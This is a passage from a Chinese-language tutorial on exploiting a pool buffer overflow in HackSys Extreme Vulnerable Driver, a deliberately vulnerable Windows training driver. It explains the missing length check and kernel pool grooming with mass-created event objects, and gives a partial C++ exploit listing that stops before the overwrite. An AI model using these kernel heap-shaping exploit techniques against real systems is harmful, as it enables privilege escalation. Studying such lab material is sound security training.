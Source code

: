 ![](https://bbs.pediy.com/upload/tmp/835440_NX7RQT94PH47FPQ.jpg)

到这里基本可以知道，该漏洞产生的原因是将数据复制到申请的非分页内存中的时候，没有对输入数据长度进行检验，导致输入数据淹没到其他地方导致了系统的错误。  

三. 漏洞利用  

==========

想要利用这个漏洞就存在一个问题是，我们无法预先知道和设置分配的这 0x1F8(算上_POOL_HEADER 是 0x200) 的非分页池内存随后的数据。因此非分页池内存在驱动加载之前就已经被使用了多次，此时这块内存中分散保存了多种多样的不同大小的数据。我们甚至无法知道我们要分配的非分页内存是从空闲链表中摘除下来，还是从更大快的内存块中切出来。

解决的办法是通过在用户层调用 CreateEvent 函数，该函数会在内核中创建事件对象_KEVENT，该对象会占用 0x40 字节的非分页内存。当创建足够多的事件对象的时候，首先当然是先从空闲链表中找到可以足够大的内存块来保存这是事件对象。当这些内存块用完以后，接下来继续申请的事件对象就会在内存中按照地址顺序排列下来。

而这个时候，我们如果释放按照地址顺序保存的事件对象，那么就会因为内存块的合并产生一个大的块。也就是说，如果释放了 8 个连续地址保存的事件对象，就会产生一个 0x200 大小的内存块，此时在进行内存申请，就会获得这个内存块，且后面跟着的是事件对象。

下图说明了这一过程，假设创建第 100 个事件对象的时候，足够容纳 0x40 大小事件对象的空闲内存块被使用完了，那么接下来申请的事件对象，也就是事件对象 100 到事件对象 108 的内存是紧邻着的，此时释放到事件对象 100 到事件对象 107 这 8 个对象，就会产生一块 0x200 大小的内存块。此时，在调用函数申请内存的时候就会获得这个 0x200 的内存块，而这个紧随内存块后面保存的是事件对象 108

![](https://bbs.pediy.com/upload/attach/202201/835440_FGET37BMRA2HVNR.jpg)

根据玉涵师傅翻译的文章，这里会首先创建 10000 个事件对象来消耗空闲内存块，然后再申请 5000 个对象，这 5000 个对象就会有连续分配的事件对象，接下来就用以下的代码进行测试

```
// exploit.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//
#include  #include  #include  #define LINK_NAME "\\\\.\\HackSysExtremeVulnerableDriver"
#define INPUT_BUFFER_LENGTH 0x1F8
#define EVENT_UNUSED_NUMBER 10000     // 消耗空闲内存块要创建的事件对象数量
#define EVENT_NUMBER 5000             // 事件对象数量，用来生成连续的内存
 
void ShowError(PCHAR msg, DWORD ErrorCode);
 
int main()
{
    HANDLE hDevice = NULL;
    DWORD dwReturnLength = 0;
    CONST DWORD dwIoCtl = 0x222003 + 3 * 4;
    HANDLE hEvent[EVENT_NUMBER + 5];
 
    // 消耗空闲内存块
    for (DWORD i = 0; i < EVENT_UNUSED_NUMBER; i++)
    {
        CreateEvent(NULL, FALSE, FALSE, NULL);
    }
 
    // 获得连续的内存块
    for (DWORD i = 0; i < EVENT_NUMBER; i++)
    {
        hEvent[i] = CreateEvent(NULL, FALSE, FALSE, NULL);
    }
 
    printf("事件对象创建完成\n");
 
    // 每9个事件对象中释放前8个
    DWORD dwNum = EVENT_NUMBER / 9;
    for (DWORD i = 0; i < dwNum; i++)
    {
        for (DWORD j = 0; j < 8; j++)
        {
            CloseHandle(hEvent[i * 9 + j]);
        }
    }
 
    // 打开驱动设备
```